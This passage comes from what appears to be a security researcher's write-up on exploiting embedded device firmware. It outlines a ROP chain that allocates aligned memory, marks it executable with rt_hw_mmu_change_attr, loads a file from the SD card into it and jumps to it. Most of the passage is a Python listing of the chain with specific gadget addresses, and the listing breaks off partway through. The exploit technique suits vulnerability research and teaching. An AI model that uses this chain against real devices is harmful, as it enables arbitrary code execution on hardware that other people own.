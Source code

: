 So all our ROP-chain needs to do is allocate some memory, get some code we control into it, and call **rt_hw_mmu_change_attr** on the memory to make it executable, then jump to it!

## Writing the Chain

When it comes to writing the chain, I still have to decide where the data is going to be loaded from:
- Maybe open a socket and send it in like I did with the camera?
- Somehow get a large chunk of data into global memory?
- Use the file write primitive we have and read the file into memory?

I ended up going with the last option, here is the secondary ROP-chain which does the following:
- Call **malloc_aligned** to get an aligned buffer (requirement of the memory attribute change)
- Use **rt_hw_mmu_change_attr** to make the allocated buffer executable
- Next call **fopen** to open the **/mnt/sdcard/test.aac** file (which we wrote earlier)
- With the file opened, we read it into the aligned buffer
- Finally, we branch to the buffer!

```
-python
rop_chain = p32(0xc03edf14) # pc

## do the initial malloc and save it somewhere (0x110 at the moment)

# | 0xc03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} |
rop_chain += p32(0xc00a5a90) # r4
rop_chain += p32(0xc01a724c) # r5 <- function to call here (rt_malloc_align)
rop_chain += p32(0x00002000) # r6 <- size of allocation
rop_chain += p32(0x00001000) # r7 <- alignment value
rop_chain += p32(0xc0473224) # r8
rop_chain += p32(0xc0450540) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc0588e9c) # pc

# | 0xc0588e9c | c0588e9c | mov r0,#0x0 | c0588ea0  | ldmia sp!,{r11,pc} | 
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc009c29c) # pc

# | 0xc009c29c | c009c29c | cpy r1,r7 | c009c2a0  | blx r4 | 
# | 0xc00a5a90 | c00a5a90 | cpy r0,r6 | c00a5a94 | blx r9 |
# | 0xc0450540 | c0450540 | cpy r3,r5 | c0450544 | blx r8 | 

# | 0xc0473224 | blx r3 | c0473228 | ldmia sp!,{r3,r4,r5,r6,r7,r8,r9,r10,r11,pc} | <- does the function call
rop_chain += p32(0xc04fe360) # r3
rop_chain += p32(0xc00d2838) # r4
rop_chain += p32(0x00000000) # r5
rop_chain += p32(0x80000000) # r6 <- subtract from our buffer to get physical memory
rop_chain += p32(0xc0024820) # r7
rop_chain += p32(0xc008f514) # r8 
rop_chain += p32(0xc019ca6c) # r9 <- address of `rt_hw_mmu_change_attr`
rop_chain += p32(0x00002000) # r10 <- this is the size argument of the change attr function
rop_chain += p32(0xc08e4ee0 + 0x40) # r11 <- we back up the address of malloc'd buffer here
rop_chain += p32(0xc0420f80) # pc

## now we call rt_hw_mmu_change_attr (r0 is our buffer address)

# | 0xc0420f80 | c0420f80 | cpy r5,r0 | c0420f84  | blx r3 | 
# | 0xc04fe360 | c04fe360 | cpy r1,r5 | c04fe364  | blx r4 | 
# | 0xc00d2838 | c00d2838 | sub r1,r1,r6 | c00d283c  | blx r8 | 
# | 0xc008f514 | cpy r2,r10 | c008f518 | blx r7 | 

# store the malloc result somewhere safe if we need it again
# | 0xc0024820 | ldmia sp!,{r4,pc} |
```